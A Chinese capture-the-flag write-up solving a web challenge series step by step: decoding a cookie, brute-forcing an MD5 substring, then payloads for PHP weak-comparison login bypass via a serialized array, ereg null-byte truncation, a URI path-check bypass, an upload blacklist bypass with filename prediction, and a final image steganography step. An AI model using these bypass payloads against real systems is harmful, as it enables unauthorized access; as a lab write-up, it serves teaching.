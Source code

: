 ```yaml
---
layout: post
title: 条条大路通罗马系列2 web writeup
category: writeup
tags: ctf
description:
---
```


想和各位赛棍学习的菜鸟。


[三个白帽][1]
----------

0x00 隐藏在cookie里的源码信息.
---------------------

 官方并没有什么提示,想着信息应该在数据包里面于是用burp截包看了看.
 发现cookie中有串奇怪的字符串
 
     source=WXpOV2FXTXpVbmxMUnpGclRsTm5hMWd3WkVaV1JuTnVZekk1TVdOdFRteEtNVEJ3VEVSTmMwNXBhemxRVTBrMFRWZEZNRTFxWTJr
     
感觉是base64 然后解码发现经过3次.

    substr(md5($_GET['source']),3,6)=="81a427"

   嗯,我们要找到一个字符串的md5的第3位到第8位是81a427   这个范围还是有点小毕竟这么多.
先试试1-999999的数字吧.
代码如下.

    import hashlib
    def md5(str):
	m = hashlib.md5()
	m.update(str)
	return m.hexdigest()
    for i in range(1,99999):
	a=str(i)
	flag=md5(a)
	if flag[3:9] == '81a427':
		print a
运气不错
payload:`47733`
![md5.jpg][2]

   payload:`/?source=47733`

![源码.jpg][3]
 
payload:`WoShiYuanMa_SGBM.zip`
然后得到源码.

0x01 小代码中的大秘密.
----

index.php
---------

 开始一看到代码中的反序列函数以为是反序列.然后群里面的某赛棍就叫我在仔细看看代码啊大兄弟.

    $password = unserialize($_POST['password']);

    	if($_POST['username']='admin' && $password['username'] !== 'admin' && $password['password'] !== 'admin'){

传入参数username=admin  passwrod中用了不恒等于只有返回false 整个语句才会得到 false，其他全部得到true 就算返回0也是得到true
那么使username和password的值为0试试看 php是弱类型啊.
当然需要序列化.构造个数组吧.

    <?php
    $arr = array("username"=>0,"password"=>0);
    var_dump($arr);
    $id = serialize($arr);
    echo ($id) ;
    ?>
  
得到`a:2:{s:8:"username";i:0;s:8:"password";i:0;}`
payload:`username=admin&password=a:2:{s:8:"username";i:0;s:8:"password";i:0;}&submit=Submit`

![index.jpg][4]
----------

main.php
--------

    if (strpos($_POST['salt'], '*SGBM*') !== FALSE)

1.使用了不恒等于返回0也为true
嗯，这样其他的什么正则都不用看了吧.
让salt的值为null就能成立
var_dump( array(0) >999999999); //true 
payload:`salt[]=00&submit=Submit`
2.要求$_POST['salt']长度小于11，但是值却大于999999999，且需要包含*SGBM*。 
因为是用ereg()函数来截取字符，我们用%00截断，就可以绕过函数提交*。 
但是还需要大于999999999，我们换个计数法，9e9。 
最后提交：`9e9%00*SGBM*`，刚好10位 


![main.jpg][5]

----------

admin/index.php
---------------
这是获取REQUEST_URI

1.url里面不能出现"./" 
2.第二个要求就是不得出现 \ 
3.限制，a-z / 和 .
4.不能出现 //
5.必须以/index.php结尾
6.不能在php后面加.
7.
```
    else if($URL == '/admin/index.php'){
	exit('<script>alert("友谊的小船,说翻就翻了！！")</script>');
    }
    else {
	if($URL !== '/admin/index.php'){
```
不恒等于啊，而且上面又有一个==可怕.
要和admin/index.php不一样.
然后猫哥告诉我试试index.php/index.php吧
然后就没有然后了.一看还真是这样过的判断.唉小菜啊.
payload:`/admin/index.php/index.php`


----------

/admin/upload.php
-----------------

    $blackext = ["php", "php3", "php4", "php5", "pht", "phtml", "phps"];//总有一款适合你
说明不是常规的绕过什么的应该是有其他的解析后缀,出题人在群里面提示说熟悉框架应该容易想到不要局限环境。
框架好像常见include的有inc ini 等等先试试inc吧
文件命名md5时间和10-99任意数字。
然后文件夹名字就是年份加月份
这个还不简单.

    $filename = md5(time().rand(10, 99)) . "." . $filearr["extension"];
    $destination_folder .= date('Y', time()) . "/" . date('m', time()) . "/";

获取代码如下.

    <?php
    $url="http://4e79618700b44607c.jie.sangebaimao.com/uploads/2016/05/".md5(time().rand(10, 99)).".inc";
    echo $url;
    file_get_contents($url);
    ?>

当然也可以根据返回的时间构造加密也是一样的.这个是我扣的代码直接复制的。
然后burp上传发包20个线程 get脚本30个线程就好.
果然
![info.jpg][6]


----------

0x02 隐藏在图片里的flag.
---------------------
以前不是到这就结束了么，然而web题变成了图片隐写题了.
![fla.jpg][7]

打开发现文件末尾有个flag.txt
怀疑是压缩包copy弄成的，直接改后缀用rar打开.
![4.jpg][8]

![12.jpg][9]

想到是RGB三原色，一共100548组，就先利用大整数分解法。蓝猫赛棍告诉我一个神奇的网站[www.factordb.com][10]
![QQ截图20160521134428.jpg][11]

然后就构造长度和宽度
然而没啥经验走了不少坑
最后蓝猫大牛看不下去了 于是告诉我了长宽.
 

    2*3*3*7*7 x 2*3*19

然后构造画布使用java代码画出来就行
就得到了flag
![1.jpg][12]

java代码，要导入相关库

    public class PicTest {  
    public static void main(String[] args) throws IOException {  
        BufferedReader br = new BufferedReader(new InputStreamReader(  
                new FileInputStream("G:\\misc100.txt")));  
        int i,j;  
          
        String line = br.readLine();  
        int rgb[] = new int[3];  
        File file = new File("G:\\1.jpg");// 实例化file对象，并设置读取图片路径  
        BufferedImage bi = null; // 像素缓冲区开始为空  
        bi = ImageIO.read(file);  
        int width = bi.getWidth();  
        int height = bi.getHeight();  
        int minx = bi.getMinX();  
        int miny = bi.getMinY();  
        for (i = 0; i < width; i++) {  
            for (j = 0; j < height; j++) {  
    //              int pixel = bi.getRGB(i, j);  
    //              rgb[0] = (pixel & 0xff0000) >> 16;  
    //              rgb[1] = (pixel & 0xff00) >> 8;  
    //              rgb[2] = (pixel & 0xff);  
    //              System.out.println("i=" + i + ",j=" + j + ":(" + rgb[0] + ","  
    //                      + rgb[1] + "," + rgb[2] + ")"+pixel);  
                if(line == null) break;  
                String[] rgbs=line.toString().split(",");  
                rgb[0]=new Integer(rgbs[0]);  
                rgb[1]=new Integer(rgbs[1]);  
                rgb[2]=new Integer(rgbs[2]);  
                bi.setRGB(i, j, Integer.parseInt(Integer.toHexString(rgb[0])+Integer.toHexString(rgb[1])+Integer.toHexString(rgb[2]),16));  
                //bi.setRGB(i, j, Integer.parseInt("ffffff",16));  
                line = br.readLine();  
            }  
        }  
        ImageIO.write(bi, "JPEG", file); //写入文件  
        br.close();  
     }  
    }  


----------
官方給的python版的.
```
#-*- coding:utf-8 -*- 
from PIL import Image 
import re 

x = 882 
y = 114 

im = Image.new(\"RGB\",(x,y)) 
file = open('flag.txt') 

for i in range(0,x): 
    for j in range(0,y): 
        line = file.readline() 
        rgb = line.split(\",\") 
        im.putpixel((i,j),(int(rgb[0]),int(rgb[1]),int(rgb[2]))) 
im.save(\"ok.png\")
```
圖片生成flag.txt
```
from PIL import Image 

im = Image.open('flag.png') 
pix = im.load() 
width = im.size[0] 
height = im.size[1] 
for x in range(width): 
    for y in range(height): 
    rgb = pix[x, y] 
    print rgb
```



感谢各位大牛不厌其烦的带小菜我,我一定会成为一名合格的赛棍和web狗.


  [1]: http://www.sangebaimao.com/
  [2]: https://img.scanfsec.com/img/2016051435646449.jpg
  [3]: https://img.scanfsec.com/img/20160530949601.jpg
  [4]: https://img.scanfsec.com/img/2016052289077881.jpg
  [5]: https://img.scanfsec.com/img/201605362622834.jpg
  [6]: https://img.scanfsec.com/img/2016051959105931.jpg
  [7]: https://img.scanfsec.com/img/2016053761230118.jpg
  [8]: https://img.scanfsec.com/img/2016052710454243.jpg
  [9]: https://img.scanfsec.com/img/2016054187106244.jpg
  [10]: http://www.factordb.com
  [11]: https://img.scanfsec.com/img/201605787339937.jpg
  [12]: https://img.scanfsec.com/img/2016054271381050.jpg
